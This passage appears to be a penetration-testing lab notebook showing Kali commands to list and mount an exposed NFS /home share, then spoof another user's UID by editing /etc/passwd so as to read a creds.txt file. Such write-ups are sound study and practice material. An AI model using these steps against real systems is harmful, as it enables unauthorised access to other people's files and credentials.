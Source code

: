 ```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221115122217.png]]
   
Notice the /home directory

```bash - kali
mkdir ./home
```

```bash - kali
sudo mount -t nfs -o nolock,nfsvers=3 $TARGET:/home ./home/
```

```bash - kali
cd ./home  && ls
```

Digging through, we see a creds file:

![[Pasted image 20221109113447.png | 600]]

Now we create a new user on kali, change it's user id value, then open the file:

```bash - kali
sudo adduser pwn
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
now to change the 1002 to 1014

```bash - kali
sudo sed -i -e 's/1002/1014/g' /etc/passwd
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
```bash - kali
su pwn
```

```bash - kali
cat creds.txt
```

---

```bash - kali
mount -t nfs $TARGET:/Mount/ /MyFolder -no lock
```

![[Pasted image 20220112111950.png]]

![[Pasted image 20220112112052.png]]
